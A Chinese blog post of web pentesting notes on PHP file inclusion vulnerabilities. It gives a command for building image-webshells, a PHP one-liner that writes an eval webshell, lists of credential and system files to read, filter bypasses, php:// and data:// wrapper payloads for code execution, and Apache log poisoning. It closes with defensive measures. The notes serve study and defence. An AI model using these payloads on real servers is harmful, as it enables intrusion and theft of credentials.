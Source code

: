 ```yaml
---
title: 文件包含漏洞
date: 2025-04-19 22:18:37
tags:
  - 命令执行
  - 反弹shell
  - 后端
  - 服务器
  - 文件包含
categories:
  - Web渗透
keywords:
  - command
description:
comments: true
cover: https://cdn.jsdelivr.net/gh/Miss3504186601/blog-assets@latest/pictures/%E8%BF%9C%E7%9C%BA%E5%B0%96%E9%A1%B6.JPG
---
```


## 介绍
文件被当做变量引用，代码复用

被包含的文件被无视文件扩展名，无条件被当做php代码解析。

## 原理

绕过格式检测等防御措施，上传带有php脚本内容的文件到服务器，夺取webshell。

## 攻击方式

### 图片马

- PHP脚本直接放到图片文本内容最后
- 命令行生成 
```PowerShell
cmd /c copy /b 1.jpg + 2.php 3.jpg
```
- `010editor`在内容末尾添加脚本
- ps制作（文件--文件简介--基本--文档标题）

## 漏洞利用

### 类型

- 本地文件包含漏洞。包含本地服务器文件，参数为本地路径。


- 远程文件包含漏洞。参数为URL。借此可以上传攻击脚本，夺取webshell。


将本地恶意文件上传到靶子机
```PHP
<?php fputs(fopen("shell.php", "w"), "<?php @eval($_POST[x])?>")?>
```
随后访问`shell.php`夺取shell


相对路径：
- ../ 上一级目录，最多推到C:/

### PHP

1. 函数
- include
- include_once
- require
- require_once 

2. 漏洞特征

参数为文件或链接

### 系统类型

系统敏感文件

1. windows

```
c:\boot.ini                                   // 查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml      // IIS配置文件
c:\windows\repair\sam                         // 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my.ini                  // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD     // MySQL root密码
c:\windows\php.ini                            // php 配置信息
```

2. linux

```
/etc/passwd                                         // 账户信息
/etc/shadow                                         // 账户密码文件
/usr/local/app/apache2/conf/httpd.conf              // Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf  // 虚拟网站配置
/usr/local/app/php5/lib/php.ini                     // PHP相关配置
/etc/httpd/conf/httpd.conf                          // Apache配置文件
/etc/my.conf                                        // mysql 配置文件
```

### 与其他漏洞配合

- 文件上传。上传一个图片马，再利用文件包含漏洞执行脚本。


### 远程文件读取

### 绕过

1. %00
2. 路径长度
使用`.``./`增加长度

原理：
    - Windows下目录最大长度为256字节，超出的部分会被丢弃
    - Linux下目录最大长度为4096字节，超出的部分会被丢弃

3. 双写绕过

原理：在文件包含服务器对我们传入的参数没有进行严格过滤时，比如没没有对大小写进行过滤，我们可以使用大小写混合进行绕过。

4. 伪协议绕过。

![伪协议](https://i-blog.csdnimg.cn/blog_migrate/bfee0035eb44e7758cb490b89c3a2861.png)


1. file:// #访问本地文件系统
`URL：http://127.0.0.1/include.php?test=file://C:\Windows\System32\drivers\etc\hosts`

1. http:// #访问HTTPs网址,除了能够跳转，还能进行远程包含进行漏洞执行。
`URL：http://127.0.0.1/include.php?test=http://www.baidu.com`

1. data://text/plain;base64,...
从php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是php代码，就会执
行任意代码。
这里需要注意若使用data的话需要allow_url_include 和allow_url_fopen为on。
`URL：http://127.0.0.1/include.php?test=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=`
"PD9waHAgcGhwaW5mbygpPz4="是通过base64加密的<?php phpinfo();?>

1. php利用
    1. php://filter.`php://filter` 可以在执行代码前将代码换个方式读取出来，只是读取，不需要开启，读取源代码并进行
base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了

`?test=php://filter/read=convert.base64-encode/resource=test.php`这里使用`resource=../../test.php`也是可以的。

    1. php://input.`php://input`主要是用来执行php代码的，不过php://input需要以`POST`提交，这里我们先在URL中添加
php://input然后抓包把GET修改为POST，最后在**数据包的最后**输入想要执行的代码就可以实现代码执
行。

### 远程文件包含

1. 绕过

    - ？
    - #（%23）
    - %00
    - 其他
![](https://i-blog.csdnimg.cn/blog_migrate/896f9afb3bf84755c58ffbdc4896f1da.png)

2. 日志读取

**场景**：有时候网站存在文件包含漏洞，但是却没有文件上传点。这个时候我们还可以通过利用Apache的日志文
件来生成一句话木马。

**原理**：日志会记录客户端`请求`及服务器`响应`的信息，访问http://www.xx.com/时，也会被记录在日志里，也可
以插入到`User-Agent`，但是请求的信息有可能被url编码之后记录日志，这里可以通过burp来发送请求
包来`防止被编码`，通过相对路径找到日志文件，利用`包含漏洞`执行。

**利用**：日志位置

    1. Apache
        1. windows
            - apache安装目录/logs/access.log或者error.log
        1. linux
            - /var/log/apache/access.log或者error.log
            - /var/log/apache2/access.log或者error.log
            - /etc/httpd/logs/access_log或者error.log 
    2. Nginx
       1. windows
          1. nginx安装目录/logs/access.log或者error.log
       2. linux
          1. /var/log/nginx/access.log或者error.log
    3. IIS
       1. IIS6.0
          1. C:\windows\system32\LogFiles
       2. IIS7.5
          1. %SystemDrive%\inetpub\logs\LogFiles
   

## 防御

1. **设置白名单**：若是在编写代码的时候能够确定文件包含的文件名的时候，那么最好使用白名单进行参数
传入。

2. **过滤危险字符**：由于Include/Require可以对PHP Wrapper形式的地址进行包含执行(需要配置
php.ini)， 在Linux环境中可以通过"../../"的形式进行目录绕过，所以需要**判断文件名称是否为合法**的
PHP文件。

3. **设置文件目录**：PHP配置文件中有open_basedir选项可以设置用户需要执行的文件目录，如果设置
目录的话，PHP仅仅在该目录内搜索文件。

4. **关闭危险配置**：PHP配置中的allow_url_include选项如果打开，PHP会通过Include/Require进行远
程文件包含，由于远程文件的不可信任性及不确定性，在开发中禁止打开此选项，PHP默认是关闭的。